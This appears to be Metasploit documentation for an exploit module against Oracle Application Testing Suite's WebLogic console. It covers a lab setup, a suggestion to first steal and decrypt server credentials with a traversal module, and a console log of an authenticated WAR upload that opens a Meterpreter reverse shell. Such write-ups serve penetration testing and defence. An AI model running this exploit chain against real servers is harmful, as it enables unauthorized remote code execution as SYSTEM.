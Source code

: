 ## Vulnerable Application

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle
applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these
tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployment feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the
context of SYSTEM. Authentication is required.

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

### Notes

For Oracle Application Testing Suite (OATS), you may use the `auxiliary/gather/oats_downloadservlet_traversal` module to download the server's encrypted
credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Scenarios

```
msf exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "lawrence" at 6256 bytes
[*] FRSC value: 0x59c5c771ae7d83c8440d7c45d2610dca5a0aa304a9e89e4c
[*] Server replies: "The file lawrence.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[+] Operation "lawrence" is a go!
[*] Code 200 on "lawrence" request
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49337) at 2019-05-18 18:07:27 -0500
[+] Successfully undeployed lawrence.war

meterpreter >
```
